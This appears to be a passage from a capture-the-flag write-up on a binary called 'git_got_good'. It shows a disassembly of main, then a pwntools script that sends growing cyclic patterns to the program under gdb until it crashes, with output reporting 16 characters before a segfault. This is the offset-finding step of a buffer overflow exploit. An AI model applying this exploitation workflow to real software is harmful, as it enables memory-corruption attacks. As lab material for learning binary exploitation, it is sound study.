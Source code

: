 ```
   0x00000000004007ef <+132>:   call   0x4005e0 <printf@plt>
   0x00000000004007f4 <+137>:   mov    -0x10(%rbp),%rcx
   0x00000000004007f8 <+141>:   mov    -0x20(%rbp),%rax
   0x00000000004007fc <+145>:   mov    -0x18(%rbp),%rdx
   0x0000000000400800 <+149>:   mov    %rax,(%rcx)
   0x0000000000400803 <+152>:   mov    %rdx,0x8(%rcx)
   0x0000000000400807 <+156>:   lea    -0x20(%rbp),%rax
   0x000000000040080b <+160>:   mov    %rax,%rdi
   0x000000000040080e <+163>:   call   0x4005b0 <puts@plt>
   0x0000000000400813 <+168>:   mov    $0x0,%eax
   0x0000000000400818 <+173>:   mov    -0x8(%rbp),%rcx
   0x000000000040081c <+177>:   xor    %fs:0x28,%rcx
   0x0000000000400825 <+186>:   je     0x40082c <main+193>
   0x0000000000400827 <+188>:   call   0x4005c0 <__stack_chk_fail@plt>
   0x000000000040082c <+193>:   leave
   0x000000000040082d <+194>:   ret

```
### How much data can we enter before a segfault
#### How much Data
```python
def findSegfault():
	i = 1
	while True:
		p =  process('/bin/bash')
		p.sendline('gdb ./git_got_good -q')
		p.sendline("r")
		d = p.recvuntil("save:")
		p.sendline(cyclic(i))
		p.recvuntil("to my buffer...\n")
		while True:
			ln = cleanLine(p.recvline())
			#print(ln)
			if re.search(".*Inferior", ln):
				p.recv(timeout=0.05)
				break
			elif re.search(".*SIGSEGV.*", ln):
				print(str(i) + " characters before segfault")
				print(ln)
				print(cleanLine(p.recvline()))
				return 0
		i += 1
```
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 GetGOTGood_Pwn1.py
[+] Starting local process '/bin/bash': pid 617175
[+] Starting local process '/bin/bash': pid 617186
[+] Starting local process '/bin/bash': pid 617197
[+] Starting local process '/bin/bash': pid 617208
[+] Starting local process '/bin/bash': pid 617227
[+] Starting local process '/bin/bash': pid 617238
[+] Starting local process '/bin/bash': pid 617249
[+] Starting local process '/bin/bash': pid 617260
[+] Starting local process '/bin/bash': pid 617282
[+] Starting local process '/bin/bash': pid 617293
[+] Starting local process '/bin/bash': pid 617304
[+] Starting local process '/bin/bash': pid 617315
[+] Starting local process '/bin/bash': pid 617334
[+] Starting local process '/bin/bash': pid 617345
[+] Starting local process '/bin/bash': pid 617356
16 characters before segfault
```